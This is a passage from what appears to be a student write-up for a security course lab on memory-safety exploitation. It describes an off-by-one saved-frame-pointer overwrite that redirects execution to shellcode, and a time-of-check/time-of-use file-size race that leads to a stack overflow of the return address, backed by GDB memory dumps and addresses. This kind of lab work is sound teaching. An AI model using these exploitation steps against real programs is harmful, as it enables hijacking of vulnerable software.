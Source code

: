 1. Write 4 dummy characters to the local variable `buf`.
2. Write the address of our shellcode (*0xffffdf9c*).
3. Write another 56 dummy characters to the local variable `buf`.
4. Overwrite the LSB of the `sfp` with the LSB of the address of the local variable `buf` (*0x40*).

Since the program takes our input and `XOR` each character with `0x20`. We need to `XOR` our desired input with `0x20` ourselves before sending it to the program.

### Exploit GDB Output

```c
(gdb) x/20x buf
0xffffd840:     0x41414141      0xffffdf9c      0x41414141      0x41414141
0xffffd850:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd860:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd870:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd880:     0xffffd840      0x0804927a      0xffffda27      0xffffd898
```

After 4 bytes of garbage, the address of the shell code is placed, followed by another 56 bytes of garbage. Then the LSB of `sfp` is overwritten with *0x40* which makes the `sfp` points to the local variable `buf`.

## Question 5

### Main Idea

The code is vulnerable because it does not read from the file **immediately** after checking file size. This allows us to initially provide a small file that passes the size check and later overwrite the file with contents larger than the allowed size. By doing so, we are able to write past the end of the local variable `buf` and overwrite the `rip` of the function `read_file`.

### Magic Numbers

We first need to determine the address of the local variable `buf` (*0xffffd888*) and of the `rip` (*0xffffd91c*).

```c
(gdb) p &buf
$1 = (char (*)[128]) 0xffffd888 
```

```c
(gdb) i f
Stack level 0, frame at 0xffffd920:
 eip = 0x80492af in read_file (orbit.c:41); saved eip = 0x804939c
 called by frame at 0xffffd930
 source language c.
 Arglist at 0xffffd918, args:
 Locals at 0xffffd918, Previous frame's sp is 0xffffd920
 Saved registers:
  ebp at 0xffffd918, eip at 0xffffd91c
```

